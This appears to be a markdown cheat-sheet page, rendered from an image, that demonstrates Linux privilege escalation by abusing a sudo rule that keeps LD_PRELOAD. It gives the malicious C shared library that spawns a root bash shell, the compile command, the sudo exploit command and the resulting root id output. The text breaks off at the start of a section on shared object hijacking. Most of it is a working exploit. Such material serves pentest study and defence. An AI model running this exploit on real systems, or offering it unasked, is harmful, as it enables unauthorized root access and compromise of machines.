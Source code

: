 # 🚨 LD_PRELOAD Privilege Escalation Example

## 🧑‍💻 Sudo Permissions
```bash
sudo -l
```
- User `daniel.carter` can run `/usr/sbin/apache2 restart` as root without a password.
- `env_keep+=LD_PRELOAD` allows LD_PRELOAD to persist in sudo environment.

## 🛠️ Malicious Library Code
```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>

void _init() {
  unsetenv("LD_PRELOAD");
  setgid(0);
  setuid(0);
  system("/bin/bash");
}
```

## 🧪 Compile the Library
```bash
gcc -fPIC -shared -o /tmp/root.so root.c -nostartfiles
```

## 🚀 Exploit with LD_PRELOAD
```bash
sudo LD_PRELOAD=/tmp/root.so /usr/sbin/apache2 restart
```

## ✅ Result
```bash
id
uid=0(root) gid=0(root) groups=0(root)
```

> This technique leverages LD_PRELOAD to gain root shell access by injecting a custom shared library.

---

# Shared Object Hijacking

## 🧩 What Are Shared Libraries?
